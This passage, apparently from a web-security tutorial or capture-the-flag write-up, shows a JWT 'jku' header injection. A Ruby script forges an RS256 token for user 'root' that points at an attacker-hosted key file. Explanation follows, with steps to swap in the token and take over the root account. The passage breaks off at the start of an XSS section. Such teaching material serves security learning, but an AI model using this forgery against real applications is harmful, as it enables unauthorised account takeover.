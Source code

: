 Now lets generate `private.pem`

`openssl genrsa -out private.pem 2048`

Now we are ready to write our script.

#### Ruby Script

```
require 'base64'
require 'json'
require 'openssl'
header = {"typ":"JWT","alg":"RS256","jku":"http://13.232.172.41/newkeys.json"}
payload = {"user":"root"}
token = Base64.urlsafe_encode64(header.to_json).gsub(/=+$/, "")+"."
token+= Base64.urlsafe_encode64(payload.to_json).gsub(/=+$/, "")
priv = OpenSSL::PKey::RSA.new File.read 'private.pem'
pub = priv.public_key
n = Base64.urlsafe_encode64(pub.n.to_s(2)).gsub(/=+$/, "")
e = Base64.urlsafe_encode64(pub.e.to_s(2)).gsub(/=+$/, "")
puts n
puts e
sign = priv.sign("SHA256", token)
puts token+"."+Base64.urlsafe_encode64(sign).gsub(/=+$/, "")
```

#### Explanation

After running the script we will recieve values of `n` and `e` replace them with the previous values of `n` and `e` as mentioned above.
In the above script we are just replacing default jku header value to our malicious server address on which we are hosting our tampered key file.


`priv = OpenSSL::PKey::RSA.new File.read 'private.pem'` 

this line used for reading the `private.pem` file. 

`pub = priv.public_key` 

used for extracting public key

`n = Base64.urlsafe_encode64(pub.n.to_s(2)).gsub(/=+$/, "")`
used for extracting value of `n` from public key.

`e = Base64.urlsafe_encode64(pub.e.to_s(2)).gsub(/=+$/, "")`
used for extracting value of `e` from public key.

after executing the script we will get the token just replace it with current token using inspect element and we will get the the `root` account ;)

## XSS

Cross-Site Scripting (XSS) attacks are a type of injection.Using This You can inject malicious payload in to the website.

### Type Of XSS
